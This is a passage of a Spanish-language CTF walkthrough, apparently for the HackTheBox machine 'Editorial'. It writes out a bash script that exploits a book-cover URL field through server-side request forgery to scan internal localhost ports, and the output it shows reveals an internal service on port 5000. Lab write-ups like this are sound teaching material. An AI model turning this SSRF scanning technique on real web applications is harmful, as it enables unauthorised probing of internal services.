 ![burp ssrf](../../img/Editorial/burp-ssrf-res.png)

Comprobamos que cuando la solicitud a la url es errónea, la respuesta es `/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg`. Por lo que haremos un script que itere por un [diccionario](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Infrastructure/common-http-ports.txt) de puertos para http y nos saque los puertos cuya respuesta no sea la dicha anteriormente.

Primero creamos un archivo para mandar en el otro campo por post.

```
echo 'test' > test.txt
```

Y ejecutamos el siguiente script.

```
nano tryPorts.sh
```

```bash
#!/bin/bash

ports=$(cat /usr/share/seclists/Discovery/Infrastructure/common-http-ports.txt)

for port in $ports; do
  res=$(curl -s -X POST http://editorial.htb/upload-cover -F "bookurl=http://127.0.0.1:$port" -F "bookfile=@test.txt")
  echo -ne "$port - $res                    \r"
  if ! [ "$res" == "/static/images/unsplash_photo_1630734277837_ebe62757b6e0.jpeg" ]; then
    echo -e "\nPort: $port"
    echo "$res"
  fi
done
echo
```

* **Nota**: cambiar la ruta del diccionario en la línea `3` si no lo tienes ahí.

```
chmod +x tryPorts.sh
./tryPorts.sh

5000 - static/uploads/fa532740-487b-44c3-851d-d981282b8e78                                          
Port: 5000
static/uploads/fa532740-487b-44c3-851d-d981282b8e78
```
